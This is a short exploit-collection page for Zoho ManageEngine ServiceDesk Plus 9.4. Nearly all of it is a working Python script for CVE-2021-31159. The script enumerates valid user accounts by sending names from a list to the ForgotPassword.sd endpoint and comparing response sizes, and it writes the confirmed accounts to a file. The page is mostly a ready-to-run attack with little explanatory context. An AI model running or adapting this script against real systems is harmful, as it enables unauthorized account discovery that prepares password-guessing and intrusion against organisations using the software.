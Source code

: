 <languages /> <translate>

漏洞影響
--------

</translate> Zoho ManageEngine ServiceDesk Plus 9.4

EXP
---

    # Exploit Title: Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumeration
    # Date: 17/06/2021
    # Exploit Author: Ricardo Ruiz (@ricardojoserf)
    # CVE: CVE-2021-31159 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
    # Vendor Homepage: https://www.manageengine.com
    # Vendor Confirmation: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
    # Version: Previous to build 10519
    # Tested on: Zoho ManageEngine ServiceDesk Plus 9.4
    # Example: python3 exploit.py -t http://example.com/ -d DOMAIN -u USERSFILE [-o OUTPUTFILE]
    # Repository (for updates and fixing bugs): https://github.com/ricardojoserf/CVE-2021-31159

    import argparse
    import requests
    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


    def get_args():
        parser = argparse.ArgumentParser()
        parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
        parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
        parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')
        parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
        my_args = parser.parse_args()
        return my_args


    def main():
        args = get_args()
        url = args.target
        domain = args.domain
        usersfile = args.usersfile
        outputfile = args.outputfile

        s = requests.session()
        s.get(url)
        resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
        incorrect_size = len(resp_incorrect.content)
        print("Incorrect size: %s"%(incorrect_size))

        correct_users = []
        users = open(usersfile).read().splitlines()
        for u in users:
                resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False)
                valid = (len(resp.content) != incorrect_size)
                if valid:
                    correct_users.append(u)
                print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

        print("\nCorrect users\n")
        with open(outputfile, 'w') as f:
            for user in correct_users:
                f.write("%s\n" % user)
                print("- %s"%(user))

        print("\nResults stored in %s\n"%(outputfile))


    if __name__ == "__main__":
        main()